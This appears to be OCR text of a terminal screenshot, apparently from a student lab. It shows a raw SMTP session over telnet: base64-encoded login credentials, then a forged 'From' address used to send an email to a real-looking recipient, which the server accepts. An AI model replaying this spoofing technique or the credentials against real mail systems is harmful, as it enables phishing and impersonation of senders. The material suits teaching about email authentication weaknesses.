 student@admin111204-B760M-DS3H-DDR4:~$ telnet dsmka.wintertoad.xyz 587
Trying 138.2.147.71...
Connected to dsmka.wintertoad.xyz.
Escape character is '^]'.
220 dsmka.wintertoad.xyz ESMTP
EHLO spoofingclient.com
250-dsmka.wintertoad.xyz
250-PIPELINING
250-SIZE 10240000
250-ETRN
250-AUTH PLAIN LOGIN
250-AUTH=PLAIN LOGIN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250 CHUNKING
AUTH LOGIN
334 VXNlcm5hbWU6
dGVzdDFAd2ludGVydG9hZC54eXo=
334 UGFzc3dvcmQ6
UEBzc3cwcmQ=
235 2.7.0 Authentication successful
MAIL FROM: <spoofed@interia.com>    
250 2.1.0 Ok
RCPT TO: <real@interia.com>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
FROM: Spoofed Sender <spoofed@interia.com>
TO: Real Recipient <real@interia.com> 
Subject: Spoofed Email
This is a spoofed email.
.
250 2.0.0 Ok: queued as 578521136FD
